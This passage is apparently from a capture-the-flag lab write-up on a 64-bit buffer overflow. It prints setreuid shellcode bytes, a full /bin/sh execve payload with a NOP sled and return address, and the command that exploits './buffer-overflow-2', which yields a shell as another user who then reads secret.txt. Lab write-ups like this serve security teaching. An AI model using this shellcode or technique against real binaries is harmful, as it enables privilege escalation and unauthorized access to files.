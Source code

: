 The returned byte sequence is: 

```
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

This code is 14 bytes long. We need it to precede our original shellcode:

```
python -c "print('\x90'*90+'\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*19+'\x38\xe9\xff\xff\xff\x7f')"
```

And we got the shell:

```
[user1@ip-10-10-140-244 overflow-4]$ ./buffer-overflow-2 $(python -c "print('\x90'*90+'\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'+'\x90'*19+'\x38\xe9\xff\xff\xff\x7f')")
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH18
sh-4.2$ whoami
user3
sh-4.2$ cat secret.txt
wowanothertime!!
sh-4.2$
```
